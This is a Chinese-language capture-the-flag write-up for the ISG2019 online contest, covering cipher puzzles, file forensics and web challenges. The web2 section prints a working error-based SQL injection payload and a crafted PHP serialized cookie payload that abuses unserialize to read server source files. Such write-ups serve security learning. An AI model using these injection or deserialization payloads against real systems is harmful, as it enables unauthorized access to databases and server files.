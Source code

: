 ```yaml
---
title: ISG2019 线上赛比赛记录
date: 2019-08-28 12:21:49
tags:
  - 古典密码与编码
  - SQLi
  - 反序列化
categories:
  - 比赛记录
---
```


题目难度不算大，但是考验脑洞。

<!--more-->

## 签到题
键盘密码，四个字母中间的那个字母就是明文。

## 传统安全服务初体验
扫目录扫出许多路径，唯一有用的是 `/admin/upload.php`，提示只能 `image` 或 `text/xml`。设置 `Content-Type` 为 `text/xml` 上传一张普通图片发现可以成功，存储在 `upload/` 目录下，但是存在了 1s 就被删了，估计是要写脚本访问。

尝试访问 `/admin/upload/` 发现可以浏览目录，flag 居然就直接就显示在这个目录下？？感觉像是非预期解。

## 攻击日志分析
导出 HTTP 对象，WinRAR 修复即可。

## 轻松一刻
试着玩了一下之后发现生成了一个 `save1` 二进制文件，用 WinHex 打开只能看到 3 个 ASCII 字符 `2 A C`，把 `2` 改成 `3` 之后载入游戏，发现来到了新的一关，因此猜测这个是关卡序号，逐次尝试后发现改成 `5` 可以得到 flag。

## 安全专家的基本修养
对图片 `binwalk` 分离出压缩包，根据提示 `five` 用 5 位数字爆破密码 `77777`，得到字符串：
```
QKM{Waoq_Fzuzns_kqaoc_!!!!_dk}
```
根据提示 `isg2019!`，将其作为密钥进行维吉尼亚解密：
```
ISG{Oiii_Ntmhhk_sksww_!!!!_vs}
```
但是答案错误，想了半天才知道第二个提示 ` 想不到是英文的吧 ` 意思是把密钥中的数字换成英语，即 `isgtwozeroonenine`，重新维吉尼亚解密即可。

脑洞题没什么意思。但是如果能早点想到维吉尼亚密钥里不应该有数字的话，可能也不至于太需要脑洞？

## web2
忘记这题的名字了，总之很容易发现是注入题，在 `hint.php` 中的 `v1` 里输入一个 `'` 得到报错信息，尝试报错注入，最终 payload 类似：
```
v1=1','2'or updatexml(1,concat(0x7e,(select temp.xxx from (select group_concat(kkk) as xxx from isgta61e) temp),0x7e),1),'3','4');#&v2=&v3=&v4=
```
payload 中间部分的构造原因稍后解释。

其实如果按照报错注入的方式构造 payload 那么只能得到表里的信息，但是光看表里的信息并没有什么用，只能看到关键在于第二行（`__ISG` 开头的那行）。这里的坑点在于，无论在 `hint.php` 中 POST 了什么，都会跳转到 `ffflllaaaggg.php`，这个页面上只有一句话 `try get flag?`，这句话本身是一个双关，是在提示我们用 GET 方法传 `flag` 参数，这一点感觉很脑洞……

我们访问 `ffflllaaaggg.php?flag=` 后就可以得到 `ffflllaaaggg.php` 的源码：
```php
<?php
    include "ISGClass.php";
    echo "try get flag?";
    if(isset($_GET["flag"])) {
        highlight_file("ffflllaaaggg.php");
    }
    if(isset($_COOKIE["ISG"])){
        highlight_file("ISGClass.php");
        $isg = urldecode($_COOKIE["ISG"]);
        $isg = unserialize($isg);
    }
    if(isset($_POST["v1"]) and isset($_POST["v2"]) and isset($_POST["v3"]) and isset($_POST["v4"])){
        $InsertData = new Conn();
        $InsertData->InsertData($_POST["v1"], $_POST["v2"], $_POST["v3"], $_POST["v4"]);
    }
?>
```
这里注意到需要设置一个 `ISG` 的 Cookie 来读取 `ISGClass.php`，这个 Cookie 值会被 URL 解码后反序列化。我们随意设置一个 `ISG` 的 Cookie 后查看源码：
```php
<?php
include "Conn.php";

class ISGClass
{
    var $value1;
    var $value2;
    public function __wakeup()
    {
        $Kkk = new Conn();
        $Kkk = $Kkk->SelectData();
        if(gettype($this->value1) == gettype($Kkk) and $this->value1 == $Kkk){
            highlight_file("{$this->value2}.php");
        }else{
            echo "find kkk!";
        }

    }
}
```
PHP 在反序列化前会先执行 `__wakeup()` 函数，这里我们不需要绕过这个函数。猜测这里的 `Kkk` 就是刚才我们查到的数据库里的 `kkk` 字段，那么我们需要构造 `value1` 使得其类型和值都与 `kkk` 相同。具体是哪个 `kkk` 呢？当然是标有 `ISG` 的第二行了，该行 `kkk` 值为 `54t7869yi`。

这样以后我们就能读取 `value2` 指向的文件了，我们目前还没有读的就是 `hint.php`。构造 payload：
```php
O:8:"ISGClass":2:{s:6:"value1";s:9:"54t7869yi";s:6:"value2";s:4:"hint";}
```
然后 URL 编码：
```php
O%3A8%3A%22ISGClass%22%3A2%3A%7Bs%3A6%3A%22value1%22%3Bs%3A9%3A%2254t7869yi%22%3Bs%3A6%3A%22value2%22%3Bs%3A4%3A%22hint%22%3B%7D
```
最后设置到 Cookie `ISG` 里，POST 给 `ffflllaaaggg.php?flag=` 即可得到 `hint.php` 源码，flag 就在其中。

这题 `get flag` 的双关既考验脑洞，又是解题的关键，所以略坑。

> 印象里还有一题 SSRF 的，利用的是 PHP 反序列化漏洞，然而环境无法复现了。。